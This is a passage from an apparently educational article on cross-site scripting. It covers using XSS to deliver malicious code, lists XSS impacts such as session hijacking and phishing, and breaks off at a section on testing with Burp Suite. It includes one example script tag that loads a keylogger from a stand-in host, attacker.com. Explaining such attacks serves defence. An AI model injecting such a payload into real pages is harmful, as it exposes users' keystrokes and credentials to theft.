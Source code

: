 <a name="distributing-malicious-code"></a>
### 6. Distributing Malicious Code

Attackers can use XSS to deliver malicious code, such as ransomware or keyloggers, to victims by injecting malicious code into popular websites or web applications.

**For example:**
```javascript
<script src="http://attacker.com/keylogger.js"></script>
```
This code loads and executes a keylogger from the attacker's server, monitoring and recording every key pressed by the user.

<a name="impact-of-crosssite-scripting-xss-vulnerabilities"></a>
## V. Impact of XSS (Cross-Site Scripting) Vulnerabilities

Cross-Site Scripting (XSS) is one of the most common and dangerous security vulnerabilities in web applications. The effects of XSS vulnerabilities can be severe and varied:

**1. Theft of User Information**

XSS vulnerabilities are often used by attackers to steal users' personal information, including login names, passwords, credit card information and other personal information. This information can be used for further fraudulent, fraudulent or offensive purposes.

**2. Session Hijacking**

By stealing users' session cookies through XSS vulnerabilities, attackers can spoof their identities and access logged in accounts without knowing the password.

**3. Phishing and Fraud**

XSS vulnerabilities can be used to create fake websites or display fake messages to scam users and obtain their personal information, such as login credentials or bank account information.

**4. Inserting Harmful Content**

Attackers can insert malicious content such as unwanted ads, malicious browsers, or fake forms into websites affected by XSS. This can have negative consequences for user experience and weaken system security.

**5. Multimedia Attack**

XSS vulnerabilities can be used to attack websites containing multimedia content, such as videos, images or music. This can weaken the security of users when they visit such websites.

**6. Systemic Weakness**

If a web application contains a large number of XSS vulnerabilities, it can become weakened and more vulnerable to attacks, leading to the risk of data loss, loss of service or negative impact on the organization's reputation. position.

<a name="how-to-search-and-test-for-xss-crosssite-scripting-vulnerabilities"></a>
## VI. How to Search and Test for XSS (Cross-Site Scripting) Vulnerabilities

### Using Burp Suite:
